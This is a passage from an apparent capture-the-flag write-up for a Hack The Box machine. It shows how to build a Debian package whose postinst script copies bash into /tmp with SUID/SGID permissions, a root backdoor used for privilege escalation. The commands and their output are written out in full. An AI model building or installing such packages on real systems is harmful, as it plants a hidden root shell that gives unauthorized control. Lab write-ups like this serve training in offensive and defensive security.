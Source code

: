 #### Create Package

There's a ton of guides out there about how to create a Deb package.
I've shown this before in
[OneTwoSeven](/htb-onetwoseven.md#create-poisoned-package).
In that example, I downloaded and modified an existing package, ticking
up the version so it would install from my server.

Here I'll just create a dummy empty package with a `postinst` script
that will run after install.

I'll create a directory to work from, and inside that a `DEBIAN`
directory:



    openmediavault-webgui@derailed:/dev/shm$ mkdir -p 0xdf/DEBIAN



Then I create the `control` file:



    openmediavault-webgui@derailed:/dev/shm$ cat 0xdf/DEBIAN/control
    Package: 0xdf
    Source: 0xdf
    Version: 0.0.1
    Architecture: amd64
    Maintainer: 0xdf
    Description: Does nothing at all...



Next I'll create the `postinst` script:



    openmediavault-webgui@derailed:/dev/shm$ cat 0xdf/DEBIAN/postinst
    #!/bin/bash
    cp /bin/bash /tmp/0xdf2
    chmod 6777 /tmp/0xdf2



I'll also need to make sure it's set as executable:



    openmediavault-webgui@derailed:/dev/shm$ chmod +x 0xdf/DEBIAN/postinst



Now `dpkg-deb` will build it into a `.deb` file:



    openmediavault-webgui@derailed:/dev/shm$ dpkg-deb --build 0xdf
    dpkg-deb: building package '0xdf' in '0xdf.deb'.
    openmediavault-webgui@derailed:/dev/shm$ ls
    0xdf  0xdf.deb 



#### Install with apt RPC
